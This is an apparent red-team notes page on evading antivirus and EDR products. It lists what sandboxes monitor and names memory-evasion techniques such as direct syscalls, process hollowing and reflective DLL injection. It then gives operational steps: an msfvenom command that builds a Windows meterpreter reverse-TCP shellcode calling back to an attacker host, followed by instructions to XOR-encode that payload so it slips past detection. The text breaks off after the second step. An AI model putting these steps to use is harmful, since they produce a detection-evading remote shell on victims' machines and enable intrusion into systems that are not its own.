 ##### What is monitored during the sandbox phase?
- Application directly interacts with the host OS
- SysCalls are made
- Network connection are established
- Registry entries are modified
- Event log are written out
- Temporary files are created or deleted
- New processes are spawned
- Configuration files are updated


### Memory evasion
Some of AV evasion via memory:

- Direct syscalls
- Process hollowing
- Using shellscripts in CLI instead of dropping a file on the victim
- Inline Hooking
- Reflective DLL injection
  - see : [https://twitter.com/OtterHacker/status/1583386338828509184?s=20&t=m0P-DwljbIABWQVSl7JVFw](https://twitter.com/OtterHacker/status/1583386338828509184?s=20&t=m0P-DwljbIABWQVSl7JVFw "https://twitter.com/OtterHacker/status/1583386338828509184?s=20&t=m0P-DwljbIABWQVSl7JVFw")

#### Direct syscalls

SysCalls provided by windows API (dlls like kernel32.dll, etc...)
Are watched by EDR and AVs to checks the passed parameters
To avoid that we can make / create our own syscalls using [Dinvoke](https://github.com/TheWover/DInvoke) for C# and [Syswhispers](https://www.google.com/search?q=Syswhisper&oq=syswhisper&aqs=chrome.0.69i59j0i512l7j0i30l2.1465j0j4&sourceid=chrome&ie=UTF-8) for C++.
Take a look at [this video by processus thief](https://www.youtube.com/watch?v=n5r2jc2X6lc)



#### Process Hollowing

Explanatory video:
https://www.youtube.com/watch?v=CTkbSiOBi58

##### 1 - Generate a shellcode
You can get a lot of shell code at : https://shell-storm.org/shellcode/
Or use metasploit:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> EXITFUNC=thread -f csharp
```

##### 2 - Encode (XOR) your shellcode with this dotnet:
Use this C#.Net program:
https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs
(it's a good idea to change the `0xfa` key to another value).

Then run the program:
```bash
dotnet run
```
then copy the given encoded shellcode
